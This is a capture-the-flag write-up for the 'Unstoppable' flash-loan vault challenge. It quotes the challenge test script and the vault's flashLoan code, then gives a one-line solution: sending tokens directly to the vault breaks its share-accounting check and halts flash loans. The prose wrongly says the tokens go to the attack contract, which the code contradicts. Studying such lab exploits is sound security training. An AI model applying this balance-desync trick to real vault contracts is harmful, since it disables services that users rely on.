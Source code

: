 ## Challenge #1 - Unstoppable
There’s a tokenized vault with a million DVT tokens deposited. It’s offering flash loans for free, until the grace period ends.

To pass the challenge, make the vault stop offering flash loans.

You start with 10 DVT tokens in balance.

---

First of all, check the origin test script:

```javascript
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Unstoppable', function () {
    let deployer, player, someUser;
    let token, vault, receiverContract;

    const TOKENS_IN_VAULT = 1000000n * 10n ** 18n;
    const INITIAL_PLAYER_TOKEN_BALANCE = 10n * 10n ** 18n;

    before(async function () {
        // Get three person in this test case.
        [deployer, player, someUser] = await ethers.getSigners();

        // deploy token contract and unstoppable contract.
        token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        vault = await (await ethers.getContractFactory('UnstoppableVault', deployer)).deploy(
            token.address,    // token address
            deployer.address, // owner address
            deployer.address  // fee recipient
        );
        
        // check if the token address is equal to the vault asset address.
        expect(await vault.asset()).to.eq(token.address);

        // approve token to the contract and deposit token to it.
        await token.approve(vault.address, TOKENS_IN_VAULT);
        await vault.deposit(TOKENS_IN_VAULT, deployer.address);

        // check all variables.
        expect(await token.balanceOf(vault.address)).to.eq(TOKENS_IN_VAULT);
        expect(await vault.totalAssets()).to.eq(TOKENS_IN_VAULT);
        expect(await vault.totalSupply()).to.eq(TOKENS_IN_VAULT);
        expect(await vault.maxFlashLoan(token.address)).to.eq(TOKENS_IN_VAULT);
        expect(await vault.flashFee(token.address, TOKENS_IN_VAULT - 1n)).to.eq(0);
        expect(
            await vault.flashFee(token.address, TOKENS_IN_VAULT)
        ).to.eq(50000n * 10n ** 18n);

        // set initial balance of player.
        await token.transfer(player.address, INITIAL_PLAYER_TOKEN_BALANCE);
        expect(await token.balanceOf(player.address)).to.eq(INITIAL_PLAYER_TOKEN_BALANCE);

        // deploy the player attack contract.
        receiverContract = await (await ethers.getContractFactory('ReceiverUnstoppable', someUser)).deploy(
            vault.address
        );

        // execute the flash loan.
        await receiverContract.executeFlashLoan(100n * 10n ** 18n);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // It is no longer possible to execute flash loans
        await expect(
            receiverContract.executeFlashLoan(100n * 10n ** 18n)
        ).to.be.reverted;
    });
});
```

So in the test script we can see that it start flash loan, so we have to check the function of flash loan.

```javascript
function flashLoan(
    IERC3156FlashBorrower receiver,
    address _token,
    uint256 amount,
    bytes calldata data
) external returns (bool) {
    // don't loan anything.
    if (amount == 0) revert InvalidAmount(0);

    // don't loan specific token
    if (address(asset) != _token) revert UnsupportedCurrency();

    // record the balance before loan start.
    uint256 balanceBefore = totalAssets();
    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();
    uint256 fee = flashFee(_token, amount);

    // transfer tokens out + execute callback on receiver
    ERC20(_token).safeTransfer(address(receiver), amount);

    // callback must return magic value, otherwise assume it failed
    if (receiver.onFlashLoan(msg.sender, address(asset), amount, fee, data) != keccak256("IERC3156FlashBorrower.onFlashLoan"))
        revert CallbackFailed();

    // pull amount + fee from receiver, then pay the fee to the recipient
    ERC20(_token).safeTransferFrom(address(receiver), address(this), amount + fee);
    ERC20(_token).safeTransfer(feeRecipient, fee);
    return true;
}
```

In the flash loan function we can see that only the checks of the balance before loan start can be intervene by the player.

```javascript
    // record the balance before loan start.
    uint256 balanceBefore = totalAssets();
    if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();
    uint256 fee = flashFee(_token, amount);
```

What we can do is to transfer tokens from player to the attack contract, so that the check by 
```if (convertToShares(totalSupply) != balanceBefore) revert InvalidBalance();``` 
will be revert.

So the answer test script can be like this:
```javascript
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Unstoppable', function () {
    let deployer, player, someUser;
    let token, vault, receiverContract;

    const TOKENS_IN_VAULT = 1000000n * 10n ** 18n;
    const INITIAL_PLAYER_TOKEN_BALANCE = 10n * 10n ** 18n;

    before(async function () {
        // Get three person in this test case.
        [deployer, player, someUser] = await ethers.getSigners();

        // deploy token contract and unstoppable contract.
        token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        vault = await (await ethers.getContractFactory('UnstoppableVault', deployer)).deploy(
            token.address,    // token address
            deployer.address, // owner address
            deployer.address  // fee recipient
        );
        
        // check if the token address is equal to the vault asset address.
        expect(await vault.asset()).to.eq(token.address);

        // approve token to the contract and deposit token to it.
        await token.approve(vault.address, TOKENS_IN_VAULT);
        await vault.deposit(TOKENS_IN_VAULT, deployer.address);

        // check all variables.
        expect(await token.balanceOf(vault.address)).to.eq(TOKENS_IN_VAULT);
        expect(await vault.totalAssets()).to.eq(TOKENS_IN_VAULT);
        expect(await vault.totalSupply()).to.eq(TOKENS_IN_VAULT);
        expect(await vault.maxFlashLoan(token.address)).to.eq(TOKENS_IN_VAULT);
        expect(await vault.flashFee(token.address, TOKENS_IN_VAULT - 1n)).to.eq(0);
        expect(
            await vault.flashFee(token.address, TOKENS_IN_VAULT)
        ).to.eq(50000n * 10n ** 18n);

        // set initial balance of player.
        await token.transfer(player.address, INITIAL_PLAYER_TOKEN_BALANCE);
        expect(await token.balanceOf(player.address)).to.eq(INITIAL_PLAYER_TOKEN_BALANCE);

        // deploy the player attack contract.
        receiverContract = await (await ethers.getContractFactory('ReceiverUnstoppable', someUser)).deploy(
            vault.address
        );

        // execute the flash loan.
        await receiverContract.executeFlashLoan(100n * 10n ** 18n);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        const attackTokenContract = token.connect(player);
        await attackTokenContract.transfer(vault.address, INITIAL_PLAYER_TOKEN_BALANCE);
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // It is no longer possible to execute flash loans
        await expect(
            receiverContract.executeFlashLoan(100n * 10n ** 18n)
        ).to.be.reverted;
    });
});
```
